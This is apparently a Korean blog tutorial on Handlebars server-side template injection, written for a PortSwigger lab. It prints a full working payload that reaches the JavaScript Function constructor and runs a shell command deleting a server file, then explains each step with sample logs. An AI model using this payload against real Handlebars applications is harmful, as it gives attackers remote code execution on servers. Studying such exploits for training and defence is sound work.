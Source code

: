```yaml
---
title: Handlebars SSTI
desc: Handlebars SSTI란 무엇인가?
date: 2024-12-04
thumbnail: /posts/advanced_skill/handlebars_ssti/thumbnail.png
---
```


## Handlebars SSTI란?
Handlebars SSTI는 서버 측 템플릿 엔진인 Handlebars에서 발생할 수 있는 보안 취약점입니다. 이 취약점은 공격자가 서버에서 실행되는 코드를 주입할 수 있게 하여, 원하지 않는 명령어 실행이나 데이터 유출을 초래할 수 있습니다.

> 💡 이 취약점은 4.0.14 이전 버전에서만 발생합니다.

---

## 배경

### SSTI
SSTI는 Server-Side Template Injection의 약자로, 템플릿 엔진에 악의적인 구문을 삽입하여 공격이 성공할 경우 RCE, LFI 등을 실행할 수 있습니다.

### Handlebars
Handlebars는 Node.js 기반 프레임워크에서 사용되는 템플릿 엔진입니다.

---

## 페이로드
```handlebars
{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

---

## 페이로드 설명

### 1. "s" 문자열을 변수화
```handlebars
{{#with "s" as |string|}}
    ...
{{/with}}
```
`{{#with ... as |alias|}}`는 Handlebars.js에서 제공하는 블록 헬퍼로, "s"라는 문자열을 **string**이라는 이름으로 변수화합니다. 이 변수는 이후 조작 대상이 됩니다.

```log
[INFO] "s" 문자열이 string 변수로 할당됨
[DEBUG] string = "s"
```

### 2. split 객체를 conslist라는 변수로 할당
```handlebars
{{#with split as |conslist|}}
    ...
{{/with}}
```
`split`은 JavaScript에서 문자열을 특정 구분자를 기준으로 나누는 메서드입니다. 이 템플릿에서는 이를 통해 리스트(배열)처럼 보이는 객체를 생성합니다. 생성된 리스트는 `conslist`라는 이름으로 저장되며, 이후 객체 내부 메서드(push, pop)를 이용해 조작됩니다.

```log
[INFO] split 객체가 conslist로 할당됨
[DEBUG] conslist 초기값 = []
```

### 3. pop 메서드 호출
```handlebars
{{this.pop}}
```
`pop` 메서드는 배열의 마지막 요소를 제거하고 반환합니다. 리스트가 비어있으므로 아무것도 하지 않음

```log
[INFO] conslist에서 pop 메서드 호출
[DEBUG] conslist = []
```

### 4. constructor 객체에 접근
```handlebars
{{this.push (lookup string.sub "constructor")}}
```
`lookup`는 특정 객체의 속성이나 메서드에 접근하는 헬퍼입니다. 여기서 `string.sub`는 string 객체에서 sub 메서드를 참조한 것입니다. `constructor`는 JavaScript의 모든 객체에 존재하는 기본 속성으로, 생성자 함수에 접근하는 데 사용됩니다. 결과적으로 이 코드는 JavaScript의 Function constructor를 참조하여 임의 코드 실행이 가능하게 만듭니다.

```log
[INFO] string.sub 메서드의 constructor 속성 참조 시도
[DEBUG] constructor = [Function: Function]
[INFO] conslist에 constructor 참조 추가
[DEBUG] conslist = [[Function: Function]]
```

### 5. 시스템 명령어 정의
```handlebars
{{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
```
여기서 push를 통해 리스트에 시스템 명령어를 포함하는 문자열을 삽입합니다. 명령어 내용:
`require('child_process')`는 Node.js에서 시스템 명령어를 실행할 수 있는 모듈을 로드합니다. `.exec(...)`는 시스템 쉘 명령어를 실행하는 메서드로, 여기서는 서버에서 특정 파일(/home/carlos/morale.txt)을 삭제하는 명령어(rm)를 실행하려고 합니다.

```log
[ACTION] string.split 호출로 codelist 생성.
[STATE] codelist = ["return require('child_process').exec('rm /home/carlos/morale.txt');"]
```

### 6. 템플릿 반복문 실행
```handlebars
{{#each conslist}}
    {{#with (string.sub.apply 0 codelist)}}
        {{this}}
    {{/with}}
{{/each}}
```
`#each`는 Handlebars.js에서 제공하는 반복문으로, 리스트(conslist)의 모든 요소를 순회합니다. `string.sub.apply(0, codelist)`는 `string.sub`가 문자열 메서드 Function을 참조한 것으로, `apply`를 사용해 실행 시 인자를 리스트로 전달합니다. 이를 통해 조작된 codelist를 실행 컨텍스트에 적용하여 JavaScript 코드를 실행하려 합니다. 최종적으로 `{{this}}`는 템플릿 내에서 현재 컨텍스트를 출력하거나 실행하는 데 사용됩니다.

```log
[INFO] conslist 순회 시작 (현재 conslist는 빈 배열).
[ACTION] string.sub.apply 호출로 codelist 실행.
[EXECUTE] "require('child_process').exec('rm /home/carlos/morale.txt');" 실행.
```

공격자는 템플릿 엔진이 제공하는 헬퍼와 메서드 체인 조작 기능을 이용해 JavaScript의 Function constructor에 접근하고, 이를 통해 코드를 실행합니다.

---

## 참고 자료
- [HackTricks - SSTI](https://book.hacktricks.xyz/kr/pentesting-web/ssti-server-side-template-injection)
- [Mahmoud Security Blog](https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)
- [Handlebars.js 공식 문서](https://handlebarsjs.com/ko/guide/builtin-helpers.html#with)

---

## 실습
- [PortSwigger Lab](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)